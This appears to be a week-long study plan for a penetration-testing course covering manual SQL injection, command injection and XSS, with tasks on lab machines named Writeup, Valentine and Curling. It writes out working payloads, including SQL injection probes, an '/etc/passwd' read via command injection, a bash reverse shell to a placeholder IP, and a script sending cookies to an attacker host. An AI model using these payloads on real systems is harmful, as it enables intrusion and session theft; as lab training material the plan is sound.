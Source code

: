 # 🧪 Week 7: Web Exploitation II — SQLi, XSS, RCE

> _“Web exploitation is chess. Your goal isn’t just to break in — it’s to rewrite the rules of how the app works.”_

---

## 🎯 Objectives
- Perform **manual SQL Injection** (no sqlmap unless validating)
- Exploit **RCE** through command injection, eval injection, insecure deserialization
- Identify and weaponize **XSS** vulnerabilities (reflected/stored)
- Combine logic flaws + injection to pivot and escalate

---

## 🛠 Tools to Master

|Tool|Purpose|
|---|---|
|`Burp Suite`|Manual request tampering + repeat testing|
|`sqlmap`|Optional verification, not your first step|
|`curl`|Submit POST/GET requests manually|
|`ffuf`|Parameter fuzzing for vulnerable fields|
|`payloadsallthethings`|Exploit templates for injections|
|`XSStrike`|XSS fuzzing (optional)|

---

## 💻 Machines

|Machine|Concepts Covered|
|---|---|
|**Writeup**|Manual SQLi → privesc|
|**Valentine**|Heartbleed + file leaks + SQLi|
|**Curling**|RCE via CMS + privilege escalation|

---

## 🗓️ Daily Breakdown

---

### 📅 Monday – Manual SQL Injection (Without sqlmap)

#### ✅ Objectives:
- Identify injectable parameters in GET/POST requests
- Enumerate DB, extract data
#### 🔧 Tasks:
- Try payloads in:
    - `username=` → `' OR 1=1--`
    - Test with `'`, `1'`, `1'--`, `admin'--`
- Confirm injectable parameter:

```sql
' AND 1=1-- → valid  
' AND 1=2-- → error
```

- Enumerate manually:

```sql
' UNION SELECT null, version()--  
' UNION SELECT null, database()--
```
#### 📄 Deliverables:
- Proof of DB enumeration
- Notes on how SQLi was discovered and exploited

---

### 📅 Tuesday – Command Injection & RCE

#### ✅ Objectives:
- Learn to exploit `ping`, `traceroute`, or other input fields that call system commands
- Exploit RCE via upload, eval injection, or insecure config
#### 🔧 Tasks:
- Try inputs like:

```bash
127.0.0.1; whoami
127.0.0.1 && cat /etc/passwd
```

- Upload and trigger payload:

```bash
nc -lvnp 4444
bash -i >& /dev/tcp/<your IP>/4444 0>&1
```

- If blind:
    - Send DNS ping to `burp collaborator`
    - Use output as proof of code execution
#### 📄 Deliverables:
- Screenshot or log showing command executed on server

---

### 📅 Wednesday – Cross-Site Scripting (XSS)

#### ✅ Objectives:
- Identify XSS in search bars, comments, parameters
- Execute script, exfiltrate cookies or trigger behavior
#### 🔧 Tasks:
- Payloads to test:

```html
<script>alert(1)</script>
<img src=x onerror=alert(1)>
<svg/onload=alert('XSS')>
```

- Use `Burp` to inject:
    - Reflected: happens in URL or response directly
    - Stored: post comment, appears to other users
- Capture cookies:

```js
<script>new Image().src="http://your-ip/cookie?c="+document.cookie;</script>
```

#### 📄 Deliverables:
- Screenshot of alert/captured cookie
- Notes on vector and context (HTML, JS, attribute)

---

### 📅 Thursday – Writeup Walkthrough

#### ✅ Objectives:
- Exploit SQLi, escalate privileges to root
#### 🔧 Tasks:
- SQLi → discover user table → find creds
- Reuse password on SSH or sudo
- Escalate to root via known exploit or SUID
#### 📄 Deliverables:
- `writeup-report.md`

---

### 📅 Friday – Root Valentine

#### ✅ Objectives:
- Exploit Heartbleed or file leakage
- Use SQLi + recon to elevate access
#### 🔧 Tasks:
- Use `heartbleed.py` (if applicable)
- Find creds from dumps
- Exploit vulnerable DB/backend
#### 📄 Deliverables:
- `valentine-report.md`

---

### 📅 Saturday – Root Curling

#### ✅ Objectives:
- Identify RCE or webshell in CMS
- Elevate using local privesc vector (e.g. `PATH`, script abuse)
#### 🔧 Tasks:
- Check `/admin`, `/dev`, `/upload`
- Inject reverse shell or command into template/file
#### 📄 Deliverables:
- `curling-report.md`

---

### 📅 Sunday – Weekly Summary & XSS/SQL Cheatsheets

#### ✅ Objectives:
- Build quick-reference guides
- Log where you struggled and why
#### 🔧 Tasks:
- `web-injection-cheatsheet.md`
- Update:
    - `notes.md`
    - `ego-log.md`

---

## ✅ End-of-Week Checklist
-  Rooted Writeup, Valentine, Curling
-  Manual SQLi exploited without sqlmap
-  XSS proven with alert or cookie log
-  RCE exploited through command injection or upload
-  Cheatsheet + reports complete
-  Reflection in `ego-log.md`

---
